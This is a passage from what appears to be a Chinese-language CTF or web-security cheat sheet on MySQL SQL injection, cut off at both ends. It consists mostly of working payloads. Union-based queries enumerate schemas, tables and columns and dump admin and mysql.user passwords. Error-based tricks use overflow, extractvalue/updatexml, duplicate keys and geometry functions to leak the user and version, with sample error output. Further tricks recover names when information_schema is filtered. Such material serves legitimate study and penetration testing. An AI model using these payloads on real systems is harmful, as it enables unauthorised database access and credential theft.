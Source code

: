         - `*_cs` case sensitive collation 區分大小寫
        - `*_bin` binary case sensitive collation 區分大小寫

- Union Based
    - 判斷 column 數
        - `union select 1,2,3...N`
        - `order by N` 找最後一個成功的 N
    - `AND 1=2 UNION SELECT 1, 2, password FROM admin--+`
    - `LIMIT N, M` 跳過前 N 筆，抓 M 筆
    - 爆資料庫名
        - `union select 1,2,schema_name from information_schema.schemata limit 1,1`
    - 爆表名
        - `union select 1,2,table_name from information_schema.tables where table_schema='mydb' limit 0,1`
        - `union select 1,2,table_name from information_schema.columns where table_schema='mydb' limit 0,1`
    - 爆Column名
        - `union select 1,2,column_name from information_schema.columns where table_schema='mydb' limit 0,1`
    - MySQL User
        - `SELECT CONCAT(user, ":" ,password) FROM mysql.user;`
- Error Based
    - 長度限制
        - 錯誤訊息有長度限制
        - `#define ERRMSGSIZE (512)`
    - Overflow
        - MySQL > 5.5.5 overflow 才會有錯誤訊息
        - `SELECT ~0` => `18446744073709551615`
        - `SELECT ~0 + 1` => ERROR
        - `SELECT exp(709)` => `8.218407461554972e307`
        - `SELECT exp(710)` => ERROR
        - 若查詢成功，會返回0
            - `SELECT exp(~(SELECT * FROM (SELECT user())x));`
            - `ERROR 1690(22003):DOUBLE value is out of range in 'exp(~((SELECT 'root@localhost' FROM dual)))'`
        - `select (select(!x-~0)from(select(select user())x)a);`
            - `ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not('root@localhost')) - ~(0))'`
            - MySQL > 5.5.53 不會顯示查詢結果
    - xpath
        - extractvalue (有長度限制，32位)
            - `select extractvalue(1,concat(0x7e,(select @@version),0x7e));`
            - `ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'`
        - updatexml (有長度限制，32位)
            - `select updatexml(1,concat(0x7e,(select @@version),0x7e),1);`
            - `ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'`
    - 主鍵重複
        - `select count(*) from test group by concat(version(),floor(rand(0)*2));`
            - `ERROR 1062 (23000): Duplicate entry '5.7.171' for key '<group_key>'`
    - 其它函數 (5.7)
        - `select ST_LatFromGeoHash(version());`
        - `select ST_LongFromGeoHash(version());`
        - `select GTID_SUBSET(version(),1);`
        - `select GTID_SUBTRACT(version(),1);`
        - `select ST_PointFromGeoHash(version(),1);`
    - 爆庫名、表名、字段名
        - 當過濾 `information_schema` 等關鍵字時，可以用下面方法爆庫名
            - `select 1,2,3 from users where 1=abc();`
                - `ERROR 1305 (42000): FUNCTION fl4g.abc does not exist`
        - 爆表名
            - `select 1,2,3 from users where Polygon(id);`
            - ``select 1,2,3 from users where linestring(id);``
                - ```ERROR 1367 (22007): Illegal non geometric '`fl4g`.`users`.`id`' value found during parsing```
        - 爆Column
            - `select 1,2,3 from users where (select * from  (select * from users as a join users as b)as c);`
                - `ERROR 1060 (42S21): Duplicate column name 'id'`
            - `select 1,2,3 from users where (select * from  (select * from users as a join users as b using(id))as c);`